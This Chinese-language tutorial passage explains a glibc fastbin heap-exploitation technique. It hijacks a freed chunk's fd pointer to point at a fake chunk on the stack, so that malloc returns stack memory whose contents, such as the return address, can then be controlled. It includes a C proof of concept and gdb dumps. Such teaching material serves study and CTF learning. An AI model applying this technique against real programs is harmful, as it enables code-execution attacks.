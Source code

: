 如果你已经理解了前文所讲的 Fastbin Double Free 与 house of spirit 技术，那么理解该技术就已经不成问题了，它们的本质都在于 fastbin 链表的特性：当前 chunk 的 fd 指针指向下一个 chunk。

该技术的核心点在于劫持 fastbin 链表中 chunk 的 fd 指针，把 fd 指针指向我们想要分配的栈上，从而实现控制栈中的一些关键数据，比如返回地址等。

### 演示
这次我们把 fake_chunk 置于栈中称为 stack_chunk，同时劫持了 fastbin 链表中 chunk 的 fd 值，通过把这个 fd 值指向 stack_chunk 就可以实现在栈中分配 fastbin chunk。
```
typedef struct _chunk
{
    long long pre_size;
    long long size;
    long long fd;
    long long bk;
} CHUNK,*PCHUNK;

int main(void)
{
    CHUNK stack_chunk;

    void *chunk1;
    void *chunk_a;

    stack_chunk.size=0x21;
    chunk1=malloc(0x10);

    free(chunk1);

    *(long long *)chunk1=&stack_chunk;
    malloc(0x10);
    chunk_a=malloc(0x10);
    return 0;
}
```
通过 gdb 调试可以看到我们首先把 chunk1 的 fd 指针指向了 stack_chunk
```
0x602000:	0x0000000000000000	0x0000000000000021 <=== chunk1
0x602010:	0x00007fffffffde60	0x0000000000000000
0x602020:	0x0000000000000000	0x0000000000020fe1 <=== top chunk
```
之后第一次 malloc 使得 fastbin 链表指向了 stack_chunk，这意味着下一次分配会使用 stack_chunk 的内存进行
```
0x7ffff7dd1b20 <main_arena>:	0x0000000000000000 <=== unsorted bin
0x7ffff7dd1b28 <main_arena+8>:  0x00007fffffffde60 <=== fastbin[0]
0x7ffff7dd1b30 <main_arena+16>:	0x0000000000000000
```
最终第二次malloc返回值为0x00007fffffffde70也就是stack_chunk
```
   0x400629 <main+83>        call   0x4004c0 <malloc@plt>
 → 0x40062e <main+88>        mov    QWORD PTR [rbp-0x38], rax
   $rax   : 0x00007fffffffde70

0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x /home/Ox9A82/tst/tst
0x0000000000600000 0x0000000000601000 0x0000000000000000 r-- /home/Ox9A82/tst/tst
0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /home/Ox9A82/tst/tst
0x0000000000602000 0x0000000000623000 0x0000000000000000 rw- [heap]
0x00007ffff7a0d000 0x00007ffff7bcd000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7bcd000 0x00007ffff7dcd000 0x00000000001c0000 --- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dcd000 0x00007ffff7dd1000 0x00000000001c0000 r-- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd1000 0x00007ffff7dd3000 0x00000000001c4000 rw- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd3000 0x00007ffff7dd7000 0x0000000000000000 rw-
0x00007ffff7dd7000 0x00007ffff7dfd000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7fdb000 0x00007ffff7fde000 0x0000000000000000 rw-
0x00007ffff7ff6000 0x00007ffff7ff8000 0x0000000000000000 rw-
```